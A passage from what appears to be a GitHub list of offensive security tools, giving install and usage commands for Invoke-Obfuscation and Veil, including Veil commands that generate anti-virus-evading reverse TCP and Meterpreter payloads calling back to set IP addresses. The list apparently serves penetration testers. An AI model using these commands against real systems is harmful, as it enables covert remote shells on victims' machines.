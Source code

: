 **Install:** 

```bash
git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
```

**Usage:** 

```bash
./Invoke-Obfuscation
```

![image](https://user-images.githubusercontent.com/100603074/206557377-a522ab7a-5803-48b0-8f3e-d7d7b607e692.png)

### [🔙](#tool-list)[Veil](https://github.com/Veil-Framework/Veil)

Veil is a tool for generating metasploit payloads that bypass common anti-virus solutions.

It can be used to generate obfuscated shellcode, see the official [veil framework blog](https://www.veil-framework.com/) for more info.

**Install: (Kali)** 

```bash
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

**Install: (Git)** 

```bash
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
```

**Usage:** 

```bash
# List all payloads (–list-payloads) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-payloads

# List all encoders (–list-encoders) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-encoders

# Generate a reverse tcp payload which connects back to the ip 192.168.1.20 on port 1234
./Veil.py -t Ordnance --ordnance-payload rev_tcp --ip 192.168.1.20 --port 1234

# List all payloads (–list-payloads) for the tool Evasion (-t Evasion)
./Veil.py -t Evasion --list-payloads

# Generate shellcode using Evasion, payload number 41, reverse_tcp to 192.168.1.4 on port 8676, output file chris
./Veil.py -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.4 --port 8676 -o chris
```

